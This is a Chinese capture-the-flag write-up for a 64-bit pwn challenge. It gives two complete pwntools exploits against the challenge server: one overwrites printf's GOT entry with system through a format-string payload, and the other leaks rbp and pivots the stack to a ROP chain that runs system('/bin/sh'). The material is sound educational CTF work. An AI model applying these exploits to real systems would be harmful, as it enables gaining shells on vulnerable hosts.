 本题存在两种解法：  
`栈迁移`解法以及`格式化字符串`劫持printf_got。

主要的函数如下：

```
__int64 vuln()
{
  char s[80]; // [rsp+0h] [rbp-50h] BYREF

  memset(s, 0, sizeof(s));
  puts("please show me your name: ");
  read(0, s, 0x48uLL);
  printf("hello,");
  printf(s);
  puts("keep on !");
  read(0, s, 0x60uLL);
  return 0LL;
}
```



存在格式化字符串漏洞，使用fmtstr_payload可以替换`printf_got`为`system_plt`。

```
printf_got = elf.got['printf']
system_plt = elf.plt['system']

payload = fmtstr_payload(6, {printf_got: system_plt})
```

然后重新返回vuln函数，写入binsh即可getshell。  
完整EXP：

```
from PwnModules import *

#io = process('./hdctf')
io = remote('node4.anna.nssctf.cn', 28144)
elf = ELF('./hdctf')
context(arch='amd64', os='linux', log_level='debug')

io.recvuntil(b'name: \n')

printf_got = elf.got['printf']
system_plt = elf.plt['system']
vuln = elf.sym['vuln']

payload = fmtstr_payload(6, {printf_got: system_plt})
io.send(payload)

payload_ret = b'A' * (0x50 + 0x08) + p64(vuln)
io.recvuntil(b'keep on !\n')
io.send(payload_ret)
io.recvuntil(b'name: \n')
io.send(b'/bin/sh\x00')

io.interactive()
```


切记不能使用sendline，因为本题限制了Payload长度，而sendline会附加换行符，导致发送的Payload出现问题。

栈迁移解法：

```
from PwnModules import *

#io = process('./hdctf')
io = remote('node4.anna.nssctf.cn', 28031)
elf = ELF('./hdctf')
context(arch='amd64', os='linux', log_level='debug')

io.recvuntil(b'name: \n')

fmtpayload = b'%16$p'
io.send(fmtpayload)
io.recvuntil(b'hello,0x')

old_rbp = int(io.recv(12),16)

log.success('RBP Addr: ' + (hex(old_rbp)))

leave_ret = 0x4007F2
rdi = 0x4008D3
system = elf.plt['system']

Target_Addr = old_rbp - 0x60 - 0x08

# RDI will pop binsh addr as system's arg
# Offset : 0x08
Payload = p64(rdi)
# Offset : 0x08 + 0x08
Payload += p64(Target_Addr + 0x8 + 0x18)
# Offset : 0x08 + 0x10
Payload += p64(system)
# Offset : 0x08 + 0x18
Payload += b'/bin/sh\x00'
# Fill the Payload to 0x50.
Payload = Payload.ljust(0x50, b'a')
# The Leave Ret cmd's ret addr.
Payload += p64(Target_Addr)
# The Leave Ret
Payload += p64(leave_ret)

io.recvuntil(b'keep on !\n')
io.send(Payload)

io.interactive()
```



首先我们使用gdb动态调试获取rbp的偏移。  
![NSSIMAGE](https://www.nssctf.cn/files/2023/4/24/70c3624501.jpg)  
因此偏移就是16。  
使用%16$p获取rbp。  
![NSSIMAGE](https://www.nssctf.cn/files/2023/4/24/55bd430249.jpg)  
计算rbp与s的偏移。  
结果为0x60，因此我们需要将栈迁移到rbp - 0x60 - 0x08的位置。  
减去0x08是为了覆盖掉原先的返回地址。  
然后我们计算出/bin/sh的偏移，这正好是我的EXP中的注释写了的东西。  
写完之后就没什么好说的了，直接打就行了。
